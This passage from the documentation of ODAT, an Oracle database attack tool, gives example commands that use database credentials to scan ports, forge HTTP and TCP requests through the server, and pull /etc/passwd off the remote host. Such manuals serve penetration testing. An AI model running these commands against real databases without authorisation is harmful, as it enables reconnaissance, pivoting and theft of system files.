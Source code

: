 * You can scan some ports:
```bash
./odat.py utlhttp -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 1521,443,22
./odat.py utlhttp -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 20-30
```

* You can send a HTTP request:
```bash
echo 'GET / HTTP/1.0\n' > ./temp.txt;
./odat.py utlhttp -s $SERVER -d $SID -U $USER -P $PASSWORD --send google.com 80 temp.txt ;
rm ./temp.txt
```

 *httpuritype* module
---

This module can be used to scan ports and to forge some HTTP requests:

* To scan ports:
```bash
/odat.py httpuritype -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 1521,443,22
./odat.py httpuritype -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 20-30
```

* You can send a GET request:
```bash
./odat.py httpuritype -s $SERVER -d $SID -U $USER -P $PASSWORD --url 127.0.0.1:80
```

 *utltcp* module
---

This module can be used to scan ports and it can be used to forge and to send TCP packet (ex: HTTP request).
 
* To scan ports:
```bash
./odat.py utltcp -s $SERVER -d $SID -U $USER -P $PASSWORD --scan-ports 127.0.0.1 1521,443,22
```

* To forge a HTTP GET request:
```bash
echo 'GET / HTTP/1.0\n\n' > ./temp.txt;
./odat.py utltcp -s $SERVER -d $SID -U $USER -P $PASSWORD --send-packet 127.0.0.1 80 ./temp.txt
rm ./temp.txt
```

 *ctxsys* module
---

This module can be used to download a file stored on the database server:

* To get the */etc/passwd* file of the remote database server:
```bash
./odat.py ctxsys -s $SERVER -d $SID -U $USER -P $PASSWORD --getFile /etc/passwd
```

 *externaltable* module
---

